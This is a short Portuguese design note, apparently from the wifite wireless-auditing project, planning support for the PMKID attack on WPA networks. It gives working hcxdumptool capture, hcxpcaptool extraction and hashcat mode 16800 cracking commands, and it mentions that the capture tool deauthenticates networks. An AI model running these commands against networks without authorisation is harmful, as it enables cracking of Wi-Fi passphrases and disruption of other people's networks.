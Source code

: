 ### Ataque PMKID

Veja https://hashcat.net/forum/thread-7717.html

### Passos

1. Iniciar `hcxdumptool` (daemon)
   * `sudo hcxdumptool -i wlan1mon -o pmkid.pcapng -t 10 --enable_status=1`
   * Também deve usar `-c <channel>`, `--filterlist` e `--filtermode` segmentar um cliente específico
   * Pode ser um novo tipo de ataque: `wifite.attack.pmkid`
2. Detectar quando o PMKID for encontrado.
   * `hcxpcaptool -z pmkid.16800 pmkid.pcapng`
   * Linha única em pmkid.16800 terá PMKID, MACAP, MACStation, ESSID (em hexadecimal).
3. Salvar `.16800` arquivo (para `./hs/`? ou `./pmkids/`?)
   * Novo tipo de resultado: `pmkid_result`
   * Adicionar entrada a `cracked.txt`
4. Execute o ataque de crack usando hashcat:
   * `./hashcat64.bin --force -m 16800 -a0 -w2 path/to/pmkid.16800 path/to/wordlist.txt`

### Problemas

* Requer a instalação do hashcat mais recente. Isso pode estar em um diretório diferente.
   * Use pode especificar o caminho para o hashcat? É...
   * % hashcat -h | grep 16800
   * 16800 | WPA-PMKID-PBKDF2
* Se o alvo não puder ser atacado... precisamos detectar este modo de falha.
   * Pode ser necessário raspar a saída do `hcxdumptool`
   * Veja `pmkids()` função em .bashrc
   * hcxpcaptool -z OUTPUT.16800 INPUT.pcapng > /dev/null
   * Verifique OUTPUT.16800 para o ESSID.
* O suporte do adaptador sem fio é mínimo, aparentemente.
* hcxdumptool também deauths redes e captura handshakes... talvez desnecessariamente


